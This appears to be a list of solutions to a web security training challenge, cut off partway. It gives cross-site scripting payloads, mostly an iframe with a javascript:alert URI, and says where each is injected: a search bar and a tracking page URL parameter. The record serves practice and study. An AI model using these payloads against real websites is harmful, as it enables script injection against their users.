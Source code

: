 
1.  DOM XSS - Found in search bar. By using Payload- <iframe src="javascript:alert(`xss`)">.

2. Bonus Payload DOM XSS- Found in search bar. By using Payload- <iframe width="100%" height="166" scrolling="no" frameborder="no" allow="autoplay" src="https://w.soundcloud.com/player/?url=https%3A//api.soundcloud.com/tracks/771984076&color=%23ff5500&auto_play=true&hide_related=false&show_comments=true&show_user=true&show_reposts=false&show_teaser=true"></iframe>

3. Reflected XSS- Found in tracking page by changing the URL Parameter by the payload- <iframe src="javascript:alert(`xss`)">

4. Client 